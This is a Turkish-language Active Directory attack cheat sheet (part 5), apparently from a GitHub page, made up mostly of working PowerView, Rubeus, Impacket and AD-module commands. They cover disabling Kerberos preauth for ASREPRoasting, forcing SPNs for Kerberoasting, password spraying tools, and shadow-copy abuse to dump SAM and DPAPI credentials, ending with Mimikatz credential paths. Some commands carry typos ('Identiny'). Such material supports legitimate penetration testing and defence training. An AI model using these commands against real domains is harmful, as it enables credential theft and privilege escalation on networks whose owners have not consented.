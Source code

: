 # Active Directory Exploitation Cheat Sheet - Bölüm 5

## Kerberos Preauth Zorla Devre Dışı Bırakma

### Hesap Üzerinde Yazma İzni ile İşlem Yapma

#### PowerView Kullanımı:
- **Hesaplarda İlginç İzinleri Kontrol Etme:**
  ```powershell
  Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
  ```

- **Kerberos Preauth Devre Dışı Bırakma:**
  ```powershell
  Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
  ```

- **Değerin Değiştiğini Kontrol Etme:**
  ```powershell
  Get-DomainUser -PreauthNotRequired -Verbose
  ```

- **ASREPRoast ile Saldırıyı Gerçekleştirme:**
  ```powershell
  # Belirli Bir Hesabın Hash'ini Al
  Get-ASREPHash -UserName <UserName> -Verbose

  # ASREPRoast ile Uygun Kullanıcıların Hash'lerini Al
  Invoke-ASREPRoast -Verbose
  ```

#### Rubeus Kullanımı:
- **Tüm Domain Kullanıcıları İçin Saldırı:**
  ```bash
  Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
  ```

- **Belirli Bir Kullanıcıya Saldırı:**
  ```bash
  Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
  ```

- **Belirli Bir OU İçin Saldırı:**
  ```bash
  Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
  ```

#### Impacket Kullanımı:
- **Belirli Kullanıcılar İçin Saldırı:**
  ```bash
  python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
  ```

## Password Spray Saldırısı

- **Açıklama:** Eğer bir kullanıcı hesabını ele geçirerek bazı şifreler elde ettiyseniz, bu yöntemi diğer domain hesaplarında şifre tekrar kullanımını istismar etmek için kullanabilirsiniz.

### Araçlar:
- **DomainPasswordSpray**
- **CrackMapExec**
- **Invoke-CleverSpray**
- **Spray**

## SPN Zorla Ayarlama

### Açıklama:
- **Eğer Yeterli İzinlere Sahipseniz:** GenericAll veya GenericWrite yetkileri ile bir hedef hesap üzerinde SPN ayarlayıp, bir TGS isteyerek blob'u alabilir ve brute-force ile şifresini kırabilirsiniz.

#### PowerView Kullanımı:
- **Hesaplarda İlginç İzinleri Kontrol Etme:**
  ```powershell
  Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
  ```

- **Mevcut SPN Ayarlarını Kontrol Etme:**
  ```powershell
  Get-DomainUser -Identity <UserName> | select serviceprincipalname
  ```

- **SPN Zorla Ayarlama:**
  ```powershell
  Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
  ```

#### AD Modülü Kullanımı:
- **Mevcut SPN Ayarlarını Kontrol Etme:**
  ```powershell
  Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
  ```

- **SPN Zorla Ayarlama:**
  ```powershell
  Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
  ```

### Hash Almak ve Kerberoast Yapmak:
Daha önceki araçlardan herhangi birini kullanabilirsiniz.

## Shadow Copies Suistimali

### Açıklama:
- Eğer bir makinede yerel yönetici erişiminiz varsa, shadow copy'leri listelemek domain yetkisi yükseltme için kolay bir yöntemdir.

#### Shadow Copy Listeleme:
- **vssadmin Kullanımı:**
  ```bash
  vssadmin list shadows
  ```

- **diskshadow Kullanımı:**
  ```bash
  diskshadow list shadows all
  ```

- **Shadow Copy'ye Sembolik Link Oluşturma ve Erişim Sağlama:**
  ```bash
  mklink /d c:\shadowcopy \\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
  ```

- **Yapabilecekleriniz:**
  - Yedeklenmiş SAM veritabanını dump ederek kimlik bilgilerini elde edebilirsiniz.
  - DPAPI ile şifrelenmiş kimlik bilgilerini arayıp çözebilirsiniz.
  - Yedeklenmiş hassas dosyalara erişebilirsiniz.

## Mimikatz ile Kimlik Bilgilerini Listeleme ve Şifre Çözme

- **Genelde Şifrelenmiş Kimlik Bilgilerinin Saklandığı Yerler:**
  - `%appdata%\Microsoft\Credentials`
  - `%localappdata%\Microsoft\Credentials`
